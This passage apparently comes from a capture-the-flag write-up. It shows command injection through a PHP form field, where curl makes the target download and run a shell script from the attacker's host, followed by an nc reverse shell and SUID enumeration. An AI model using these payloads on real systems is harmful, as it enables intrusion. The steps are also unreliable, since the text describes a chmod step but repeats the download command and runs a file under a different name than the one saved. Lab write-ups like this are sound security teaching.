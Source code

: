 
That will reach out to my webserver, download `shell.sh` to `/tmp/0xdf`. Now
I’ll use the same technique to `chmod` to make the file executable:

    
    
    root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(curl 10.10.14.15/shell.sh -o /tmp/0xdf)' --data-urlencode 'submit=go'
    

And one last time to run it:

    
    
    root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(/tmp/rev)' --data-urlencode 'submit=go'
    

At `nc`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.24.
    Ncat: Connection from 10.10.10.24:43906.
    bash: cannot set terminal process group (1225): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@haircut:~/html$
    

### user.txt

No matter how I get a shell, I can now grab `user.txt`:

    
    
    www-data@haircut:/home/maria/Desktop$ cat user.txt
    0b0da2af************************
    

## Shell as root

### Enumeration

In checking for SUID files, I found `/usr/bin/screen-4.5.0`:

    
    
    www-data@haircut:~$ find / -perm -4000 -o -perm -2000 -type f 2>/dev/null    
    /bin/ntfs-3g
    /bin/ping6
    /bin/fusermount
    /bin/su
    /bin/mount
    /bin/ping
    /bin/umount
    /sbin/unix_chkpwd
    /sbin/pam_extrausers_chkpwd
    /usr/bin/sudo
    /usr/bin/mlocate
    /usr/bin/pkexec
    /usr/bin/chage
    /usr/bin/screen.old
    /usr/bin/newuidmap
    /usr/bin/crontab
    /usr/bin/bsd-write
    /usr/bin/newgrp
    /usr/bin/newgidmap
    /usr/bin/expiry
    /usr/bin/gpasswd